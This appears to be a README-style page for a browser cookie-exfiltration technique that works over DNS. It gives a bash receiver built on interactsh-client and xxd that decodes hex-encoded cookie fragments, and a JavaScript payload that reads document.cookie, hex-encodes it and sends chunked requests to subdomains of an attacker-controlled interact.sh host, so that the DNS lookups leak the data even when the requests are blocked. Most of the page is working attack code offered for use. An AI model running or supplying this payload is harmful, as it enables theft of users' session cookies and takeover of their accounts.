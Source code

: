 ## Reciever

The following payload will set up a DNS listener (using interactsh by project discovery) and sequentially handle the output to transform the DNS queries containing fragments of cookies (that will be sent by the attacker payload) into readable ASCII characters.

> Note: The dns queries will obey the following pattern: hexacode.yourdomain

#### bash Command

```
interactsh-client | tee -a saida  | tr -d '[]' | cut -f1 -d ' ' | xargs -I@ bash -c 'echo @ | xxd -r -p'
```

## Payload attacker
The payload below will convert all cookies present on the current page into multiple requests (using fetch function from JS), attempting to call your malicious server, which will be listening for DNS queries. 
The trickest and coolest part here is that, if for some reason, the client-side block the GET request from the client-side to be made, with this payload the browser probably has already started a DNS lookup to check if the host provided is alive to be fetched. Then, we can exploit this behavior to gain some advantages. 

#### JS Command

```
t=40;dm='cb364rdve0qv08pghjmgcmdgr5eyyyyyn.interact.sh';k2="-None";d=document;c=d.cookie;function v(dm, d, c){m="";for(var x in c){k=Math.random().toString(36).substring(7);m=m.concat(c.charCodeAt(x).toString(16).padStart(2,0))};iter=[];p=0;x=0;it=(m.length/t);for(i=[];i.length<=it;){i.push(1);iter.push(m.slice(iter.length*t,i.length*t));};for(var o in iter){danger='https://fma6mqp.1wxyg8.sdrv2.fcnoh2'.replace('fma6mqp',iter[o]).replace('1wxyg8',o).replace('sdrv2',k.concat(k2)).replace('fcnoh2',dm);var xhttp = new XMLHttpRequest();xhttp.open("GET", danger);xhttp.send();};};v(dm,d,c)
```

#### Thanks

https://github.com/gum0x/rascal (that JS payload was ~copied~ inspired from here. I've only made some changes)
